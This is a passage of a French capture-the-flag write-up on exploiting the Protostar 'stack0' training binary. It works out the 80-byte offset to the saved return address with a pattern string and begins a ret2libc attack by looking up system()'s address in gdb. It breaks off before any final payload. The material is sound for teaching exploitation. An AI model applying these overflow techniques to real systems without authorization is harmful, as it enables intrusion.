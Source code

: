 La particularité ici est que l'exploitation se fait directement dans la fonction `main()` ce qui est assez rare pour ce type de challenge.

Toutefois ça ne change pas grand chose car l'appel original s'est fait par un `call` :

```nasm
0x08048357      push main          ; 0x80483f4 ; void *main
0x0804835c      call __libc_start_main ; sym.imp.__libc_start_main ; int __libc_start_main(void *main, int argc, char **ubp_av, void *init, void *fini, void *rtld_fini, void *stack_end)
0x08048361      hlt
```

On voit ici que 0x60 (96) octets sont alloués pour la stack frame donc ce qui sépare `ebp` de `esp`. Mais notre buffer est à `esp+0x1c` (`esp+28`) donc il faut écraser à minima 96 - 28 = 68 octets pour remplir la stack frame avant d'attaquer le saved-ebp et l'adresse de retour.

On va commencer par passer au programme cette chaine suivante générée par Python :

```python
"A" * 68 + "BBBB" + "CCCC" + "DDDD" + "EEEE" + "FFFF"
```

```shellsession
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF
you have changed the 'modified' variable
Segmentation fault
$ dmesg|tail -1
[ 7528.902449] stack0[1800]: segfault at 45454545 ip 45454545 sp bffffd00 error 4
```

On voit que `eip` est écrasé par `45454545` soit les caractères E. Il faut donc 80 caractères avant d'écraser `eip`.

Note: j'ai trouvé cet article sur les codes d'erreurs segfault : [Chris's Wiki :: blog/linux/KernelSegfaultErrorCodes](https://utcc.utoronto.ca/~cks/space/blog/linux/KernelSegfaultErrorCodes)

On va utiliser la technique de `ret2libc` car la stack n'est pas randomisée : l'adresse de `system()` sera toujours au même emplacement.

Il faut aussi passer sur la stack le chemin du programme que l'on veut exécuter. Idéalement c'est `/bin/sh` mais la chaine n'est pas présente dans l'exécutable. On pourrait la retrouver dans la mémoire du programme une fois lancé puisqu'il charge la libc mais ici on va juste réutiliser une chaine du programme et s'arranger pour qu'il y ait un programme du nom correspondant dans le path.

```
$ gdb ./stack0
GNU gdb (GDB) 7.0.1-debian
Reading symbols from /opt/protostar/bin/stack0...done.
(gdb) b *main
Breakpoint 1 at 0x80483f4: file stack0/stack0.c, line 6.
(gdb) r
Starting program: /opt/protostar/bin/stack0 

Breakpoint 1, main (argc=1, argv=0xbffffd64) at stack0/stack0.c:6
6       stack0/stack0.c: No such file or directory.
        in stack0/stack0.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) x/s 0x08048520
0x8048520:       "variable"
```
